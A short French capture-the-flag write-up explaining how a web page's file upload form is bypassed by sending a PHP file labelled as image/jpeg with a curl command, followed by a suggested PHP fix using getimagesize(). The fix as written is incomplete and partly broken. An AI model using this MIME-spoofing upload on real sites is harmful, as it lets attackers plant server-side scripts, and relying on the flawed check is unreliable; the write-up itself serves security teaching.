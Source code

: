 # Explications
Dans la page "upload", il y un formulaire upload de fichier:
```html
<form enctype="multipart/form-data" action="#" method="POST">
	<input type="hidden" name="MAX_FILE_SIZE" value="100000">
	Choose an image to upload:
	<br>
	<input name="uploaded" type="file"><br>
	<br>
	<input type="submit" name="Upload" value="Upload">
</form>
```
On peut donc essayer de faire passer un fichier <code>php</code> pour un <code>jpeg</code> via curl en requete POST avec la commande suivante:

<pre>curl -s -H "Content-Type: multipart/form-data" -F Upload=Upload -F "uploaded=@empty.php;type=image/jpeg"  "http://$IP/?page=upload" | grep "flag"</pre>
> On y rajoute le <code>grep flag</code> pour n'obtenir que le flag.

La commande va remplir tous les champs necessaires a l'upload et grâce au 
<code>type=image/jpeg</code> on peut faire croire au formulaire qu'il s'agit bien d'une image et non pas d'un script <code>php</code>.

# Comment l'éviter ?
Il suffit de faire un check du file upload dans le backend afin de verifier qu'aucun fichier corrompu ou autre ne soit mis sur le site, comme dans l'exemple suivant :

```php
//getimagesize ( string $filename [, array &$imageinfo ] ) : array
if (isset($_POST) && $_POST['Upload'] && $_POST['uploaded']) {
	if(@is_array(getimagesize($mediapath))){
		$image = true;
	} else {
		$image = false;
	}
}
```
<pre>
OUTPUT exemple:
Array (
[0] => 800
[1] => 450
[2] => 2
[3] => width="800" height="450"
[bits] => 8
[channels] => 3
[mime] => image/jpeg)
</pre>